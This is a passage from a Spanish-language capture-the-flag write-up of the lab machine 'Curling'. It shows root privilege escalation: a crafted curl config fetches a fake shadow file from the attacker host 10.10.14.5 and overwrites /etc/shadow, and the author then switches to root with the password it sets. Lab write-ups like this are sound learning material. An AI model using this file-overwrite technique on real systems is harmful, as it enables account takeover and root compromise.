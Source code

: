 ```bash
floris@curling:/tmp/miacosa$ echo -e 'url = "http://10.10.14.5:8000/shadow"\n-o /etc/shadow' > /home/floris/admin-area/input 
```

Nos llegara la petición, leerá el contenido del archivo hosteado (`shadow`) y lo guardara en la ruta `/etc/shadow`, o sea, el nuevo archivo será el que contiene nuestra contraseña (:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160bash_transport_FAKEshadowFILE.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

YyyyyyyyyyyyYYYyyyYyyy si ahora intentamos conectarnos como `root` con la contraseña `ajatepille`:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160bash_rootSH_su.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

VAMOOOOOOOOOOOOOOONOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOS!! Conseguimos una **Shell** como el usuario `root` cambiándole su contraseña, que belleza!!

Veamos las flags:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160flags.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Y eso es todo por esta máquina :(:(:(:(:

...

Bonito camino, lo de encontrar `secret.txt` así como así en un comentario fue muy KLK, pero de resto fue de mucho aprendizaje.

Y weno, nos reencontraremos en otra ocasión, a darle duro a todo yyyyyyyyyyyyyyyyyyy a seguir rompiendoOOO0oOOOOOOoooooTODOOOOOOOOooooOO!!